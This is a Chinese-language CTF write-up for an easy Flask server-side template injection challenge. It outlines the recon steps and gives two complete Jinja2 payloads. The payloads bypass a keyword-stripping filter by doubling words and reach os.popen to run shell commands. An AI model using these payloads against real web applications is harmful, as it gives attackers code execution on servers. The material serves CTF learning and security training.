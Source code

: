 **考点：**基础 Flask SSTI

**难度：**较易

**思路：**

HTTP头得到需要传递的参数

fuzz得到SSTI的存在

fuzz得到替换过滤

解法一：

双写绕过+模板语法遍历基本类getshell

```python
{% for c in [].__class__.__babasese__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globasebals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'evevalal' in b.keys() %}
      {{ b['evevalal']('__imosport__("ooss").poppopenen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

解法二：

脚本得到所需要使用的类索引+双写绕过getshell

脚本为同目录下ssti.py

```python
{{[].__class__.__mosro__[1].__subclasses__()[198].__init__.__gloosbals__['__builtins__']['evevalal']('__imposort__("ooss").poospen("ls").read()')}}
```


